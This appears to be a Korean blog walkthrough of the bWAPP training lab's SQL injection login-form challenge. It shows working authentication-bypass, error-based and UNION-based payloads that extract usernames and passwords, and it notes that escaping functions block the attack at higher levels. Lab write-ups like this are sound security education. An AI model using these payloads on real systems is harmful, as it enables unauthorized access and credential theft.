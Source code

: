 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (Login Form/Hero)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image.png)

- 일반적인 Login Form이 존재한다.
![그림 1-2](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image2.png)
- '(싱글 쿼터) 입력을 통한 DBMS Error 유/무 확인시 Error 발생

![그림 1-3](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image3.png)
- 일반적인 ' or 1=1-- 와 같은 인증 우회를 통해 로그인이 가능
- Neo 계정으로 로그인 성공
- 이를 통해 user 목록이 있는 테이블 최 상단에 Neo 유저가 있는 것으로 추정
- Limit 절을 사용하여 한명씩 로그인 하며 전부 확인이 가능함.

```sql
' or 1=1-- 
' or 1=1 limit 1,1-- 
' or 1=1 limit {idx},1--  
```

![그림 1-4](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image4.png)
- 이전 취약점 유/무 확인시 DBMS Error가 발생하였으며, Error Based 공격이 가능함

```sql
' AND extractvalue(0x0a,concat(@@version))
```

![그림 1-5](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image5.png)
![그림 1-6](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image6.png)

- 입력값에 대한 결과를 웹 페이지에 노출되고 있음
- Union-Based공격 또한 가능
- 4개의 컬럼이 사용중이며
- 2, 4 컬럼이 페이지에 노출되고 있음

```sql
1' union select 1,concat(id,0x3a,login),3,concat(password,0x3a,secret) from bWAPP.users limit 1,1--
```

- 출력되는 레코드는 하나의 열씩 출력 되므로, 순차적 레코드 출력으로 데이터를 추출해야함
![그림 1-7](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image7.png)
- 데이터 추출 성공

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

